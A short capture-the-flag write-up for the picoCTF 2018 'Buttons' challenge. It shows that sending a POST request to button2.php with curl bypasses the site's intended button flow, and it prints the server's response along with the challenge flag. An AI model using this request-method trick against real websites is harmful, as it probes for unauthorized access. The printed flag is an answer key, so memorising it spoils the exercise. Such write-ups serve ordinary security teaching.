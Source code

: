 # Buttons
## Description
>There is a website running at http://2018shell.picoctf.com:44730 (link). Try to see if you can push their buttons.
## Solution
If you compare the requests made by button1.php and button2.php in the Network
tab of Developer tools, you will see that button1.php makes a POST request,
while button2.php makes a get request. In order to get the flag, all we have to
do is make a POST request to http://2018shell.picoctf.com:44730/button2.php.
This can easily be done via curl.
***
    $ curl -i -X POST http://2018shell.picoctf.com:44730/button2.php
    HTTP/1.1 200 OK
    Content-type: text/html; charset=UTF-8

    Well done, your flag is: picoCTF{button_button_whose_got_the_button_dfe8b73c}
***
